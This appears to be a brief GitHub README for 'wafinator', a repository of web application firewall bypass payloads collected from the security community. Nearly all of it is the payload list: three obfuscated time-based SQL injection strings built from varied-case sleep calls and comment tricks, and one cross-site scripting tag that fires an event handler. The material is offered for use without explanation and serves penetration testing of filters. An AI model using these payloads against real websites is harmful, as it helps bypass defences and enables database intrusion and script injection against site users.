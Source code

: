 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


-SleEp(0x2);--
-slEEp("5A");--
-SleEP/*(*/(5);--
J<d3v/onauxclick=[2].some(confirm)>O
